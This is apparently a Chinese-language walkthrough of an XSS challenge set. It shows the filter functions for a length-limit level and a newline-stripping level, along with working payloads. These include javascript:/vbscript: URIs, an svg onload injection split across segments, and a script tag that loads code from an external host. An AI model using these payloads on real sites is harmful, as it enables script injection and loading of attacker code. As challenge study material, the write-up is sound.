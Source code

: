 ```javascript
javascript:prompt(1)#{"action":1}
vbscript:prompt(1)#{"action":1}

后面的 action 覆盖了，可以过正则，但我的疑问是覆盖掉了，前面的 action 值不会变吗
看输出的HTML，<form action='' 这里直接是第一个值，验证的时候是document.forms[0].action，
应该是这里的问题，再好好想想
```

#### 7. 长度限制

```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}  
```

```javascript
我的第一想法是，存起来，然后在拼一下，然而不太现实
”><svg/onload'/*#*/=prompt(1) 直接这样的话长度会超了
这个操作太强了
"><svg/a=#"onload='/*#*/prompt(1)'
<p class="comment" title=""><svg/a="></p><p class="comment" title=""
onload='/*"></p><p class="comment" title="*/prompt(1)'"></p>

单引号没必要吧，"><svg/a=#"onload=/*#*/prompt(1)


"><script x=#"async=#"src="//⒛₨

<p class="comment" title=""><script x="></p>
<p class="comment" title=""async="></p>
<p class="comment" title=""src="//⒛₨"></p>

Background Info
The async attribute allows to utilize un-closed script elements. So this works in MSIE - a very useful trick: <script src="test.js" async>
```

#### 8. 换行符

```javascript
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
} 
```
